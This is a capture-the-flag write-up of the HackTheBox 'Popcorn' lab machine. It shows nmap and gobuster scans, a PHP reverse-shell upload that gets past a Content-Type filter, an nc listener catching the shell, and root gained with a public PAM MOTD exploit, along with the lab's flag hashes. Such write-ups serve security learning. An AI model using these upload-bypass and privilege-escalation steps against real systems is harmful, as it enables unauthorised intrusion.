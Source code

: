 ```yaml
---
layout: post
title: HackTheBox Popcorn (10.10.10.6) Writeup
description: >
  Hackthebox Popcorn Writeup
image: /assets/img/popcorn.png
---
```


**NMAP:**
```
root@37f72653a832:/# nmap -sC -sV -T4 -p- 10.10.10.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 23:52 UTC
Nmap scan report for 10.10.10.6
Host is up (0.019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.63 seconds
```
**GOBUSTER:**
```
/index (Status: 200)
/index.html (Status: 200)
/test (Status: 200)
/test.php (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
```
Navigating to `/torrent` reveals a torrent hoster. Here I can create an account. Once logged in I can upload a torrent file. 

Now once the torrent file is uploaded I can click on `Edit this torrent` to upload a screenshot. This is where I will upload a reverse php shell and will intercept the request using Burpsuite to bypass the upload filter. 

I change the Content type of the request from `application/octet-stream` to `image/jpeg` and then forward the request. I get a success message that file was uploaded

![dcdc250d1884a33d561563ed452b0bef.png](../../resources/27d81cfbbd854d2a88f9516ee9f3f74c.png)

Now going back to the torrent uploader the screenshot section now displays a messsage like `Image File Not Found!`. Clicking on the message triggers the shell and opens up the reverse connection. I get a shell as `www-data`
```
root@37f72653a832:/# nc -lvnp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:53362.
whoami
www-data
```
From here I can read the `user.txt` flag
```
www-data@popcorn:/home/george$ cat user.txt
5e36a929398ecc5d5c110f2d865cf136
```
After doing some enumeration around the box I find that it is running an outdated version of PAM. I confirm this using the command below
```
www-data@popcorn:/home/george/.cache$ dpkg -l | grep pam
dpkg -l | grep pam
ii  libpam-modules                      1.1.0-2ubuntu1                    Pluggable Authentication Modules for PAM
ii  libpam-runtime                      1.1.0-2ubuntu1                    Runtime support for the PAM library
ii  libpam0g                            1.1.0-2ubuntu1                    Pluggable Authentication Modules library
ii  python-pam                          0.4.2-12ubuntu3                   A Python interface to the PAM library
```
Checking Exploit Database there is [this exploit](https://www.exploit-db.com/exploits/14339) that can be used to escalate privileges.
```
www-data@popcorn:/dev/shm$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/dev/shm#
```
From here I can read the `root.txt` file
```
root@popcorn:~# cat root.txt
cat root.txt
f122331023a9393319a0370129fd9b14
```


